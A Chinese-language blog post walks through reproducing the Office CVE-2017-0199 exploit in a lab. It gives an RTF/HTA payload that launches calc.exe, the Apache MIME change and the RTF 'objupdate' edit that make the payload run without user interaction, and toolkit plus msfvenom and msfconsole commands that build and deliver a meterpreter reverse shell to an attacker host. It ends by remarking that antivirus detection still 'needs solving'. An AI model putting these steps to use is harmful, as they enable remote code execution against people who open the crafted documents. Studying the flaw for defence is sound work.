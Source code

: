 ```yaml
---
layout: post
title: "Office CVE-2017-0199复现"
date: 2017-11-24 0:0:0
categories: jekyll update
---
```

## 介绍
<p>
&emsp;** 本文介绍在Ubuntu 14.04服务器版本下复现office cve-2017-0199。**
</p>
## 环境
> ubuntu 14.04服务器版

## 目录
* [验证](#1)
* [取消交互](#2)
* [Get Shell](#3)


### <a name="1"></a>1、验证
&emsp;Step 1：安装apache2服务
<div align="center">
    <img src="/images/posts/office/1.png" >  
</div>

&emsp;Step 2：在网站根目录下创建1.rtf，内容如下：
```script
test789 
<script> 
var objShell = new ActiveXObject("wscript.shell"); objShell.Run("%SystemRoot%\\system32\\calc.exe"); 
</script>

```

&emsp;Step 3：验证apache的配置文件mime.types里有rtf的content type项
因为mime.types的位置可能因系统而不同，所以直接使用find命令查找位置
<div align="center">
    <img src="/images/posts/office/2.png">  
</div>

&emsp;查看该文件，可以看到
<div align="center">
    <img src="/images/posts/office/3.png">  
</div>

&emsp;Step 4：使用office 2013 pro 创建空白文档，然后点击“插入”  “对象”,
在文件名上填写完整的网页地址，选择链接到文件
<div align="center">
    <img src="/images/posts/office/4.png">  
</div>

&emsp;点击“确定”，然后在文档中可以看到 test789。
<div align="center">
    <img src="/images/posts/office/5.png" >  
</div>

&emsp;注：在此步中，很可能不成功，具体原因未知。
具体现象：在链接到1.rtf时显示找到路径，不存在该文件。但去链接同目录下的index.html文件时可以成功，成因未知。


&emsp;Step 5：将mime.types中的application/rtf   rtf 改成 application/hta   rtf
重启apache服务
<div align="center">
    <img src="/images/posts/office/6.png">  
</div>

<div align="center">
    <img src="/images/posts/office/7.png">  
</div>

&emsp;Step 6：双击对象
<div align="center">
    <img src="/images/posts/office/8.png">  
</div>

<div align="center">
    <img src="/images/posts/office/9.png" >  
</div>

<div align="center">
    <img src="/images/posts/office/10.png" >  
</div>

&emsp;可见成功利用`CVE-2017-0199漏洞`

-----------

### <a name="2"></a>2、取消交互
&emsp;为了`取消用户交互`，也就是让用户去双击
&emsp;Step 1：将文件另存为.rtf格式
<div align="center">
    <img src="/images/posts/office/11.png">  
</div>

。。。。。直接被`卡巴`检测到恶意文件.
<div align="center">
    <img src="/images/posts/office/12.png" >  
</div>

&emsp;Step 2：用文本编辑器打开刚才保存的rtf格式文件，找到object标签所在地方
<div align="center">
    <img src="/images/posts/office/13.png">  
</div>

&emsp;把{object\objautlink\rsltpict 改成 {object\objautlink\objupdate\rsltpict

&emsp;保存文件再打开，这样就不用用户交互了。

&emsp;此时在虚拟机中新建一个空白文档，这时，在点击链接到文件后已经会自动弹出计算器了
虚拟机环境：win7，office 2010 pro
<div align="center">
    <img src="/images/posts/office/14.png">  
</div>

<div align="center">
    <img src="/images/posts/office/15.png">  
</div>

<div align="center">
    <img src="/images/posts/office/16.png">  
</div>
----------

### <a name="3"></a>3、Get Shell
&emsp;在kali中利用exploit
&emsp;Github地址：https://github.com/bhdresh/CVE-2017-0199

下载后，在情景1下实验

```python
1) Generate malicious RTF file
   # python cve-2017-0199_toolkit.py -M gen -w Invoice.rtf -u http://192.168.56.1/logo.doc -x 1
2) (Optional, if using MSF Payload) : Generate metasploit payload and start handler
   # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
   # msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.1; run"
3) Start toolkit in exploit mode to deliver local payload
   # python cve-2017-0199_toolkit.py -M exp -e http://192.168.56.1/shell.exe -l /tmp/shell.exe
```


按以上命令依次运行
<div align="center">
    <img src="/images/posts/office/17.png" >  
</div>

<div align="center">
    <img src="/images/posts/office/18.png">  
</div>

&emsp;可证实该exploit可行。
&emsp;但生成的.rtf在执行时会被杀软报毒，需要解决。
